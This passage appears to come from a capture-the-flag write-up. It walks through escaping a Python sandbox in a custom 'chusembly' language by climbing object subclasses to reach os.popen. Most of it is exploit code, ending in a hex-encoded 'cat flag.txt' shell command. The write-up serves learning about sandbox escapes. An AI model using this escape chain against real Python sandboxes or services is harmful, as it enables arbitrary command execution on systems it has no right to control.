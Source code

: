 ```
CALL E
STDOUT E
```

In output we would get the whole list

so in chrome dev tools console I wrote the following code for getting i

```js
let c = $("pre").innerText.split(", ");
c.indexOf("<class 'os._wrap_close'>");
```

and i got `i=138`

similarly can be done for getting popen for we will get `j=382`

**`i`,`j` denotes the index of os.\_wrap_close and os.popen respectively in the respective list**

our final chusembly code looks like this:

```
LD D 0x612063
PROP split D
DEL A
DEL B
CALL E
PROP __class__ E
MOV E C
DEL E
DEL D

LD D 0x55
PROP __class__ D
PROP __base__ E
PROP __subclasses__ E
DEL A
DEL B
CALL E
LD A 138
IDX E E
PROP __init__ E
PROP __globals__ E
PROP values E
DEL A
DEL B
CALL E
MOV E B
DEL A
CALL C
LD A 382
DEL B
IDX E E
STDOUT E
LD A 0x63617420666c61672e747874
STDOUT A
DEL B
CALL E
PROP read E
DEL A
DEL B
CALL E
STDOUT E
```
